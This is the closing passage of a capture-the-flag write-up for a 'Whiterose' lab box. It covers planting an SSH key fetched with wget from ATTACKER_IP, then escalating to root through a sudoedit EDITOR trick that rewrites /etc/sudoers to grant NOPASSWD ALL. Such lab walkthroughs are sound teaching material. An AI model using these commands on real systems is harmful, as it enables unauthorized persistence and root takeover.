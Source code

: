 On the target machine create this directory: `~/.ssh`.
Download here your public key:
```bash
wget http://ATTACKER_IP:8000/id_rsa.pub
```

Rename the file:
```bash
mv id_rsa.pub authorized_key
```

Now we can finally login via SSH:
```bash
ssh web@whiterose.thm
```

Let's check if we can run anything as super user:
```bash
sudo -l
```

We can see that we can run as sudo:
```
User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

We can exploit it by telling it to open an editor of choice on a specific file, like the sudoers, then there we can grant us priviliges:
```bash
export EDITOR="vim -- /etc/sudoers" 
```

Edit the web line to look like this
```
web ALL=(ALL:ALL) NOPASSWD: ALL
```

Now we can become root and read the flag:
```bash
sudo su
```
```bash
cat /root/root.txt
```
--> REDACTED

<br/>
<br/>

## Conclusion
Congratulations you have successfully exploited several web vulnerabilities and became root.

I hope you had fun doing the challenge and following along!

Catch you in the next CTF 😃 
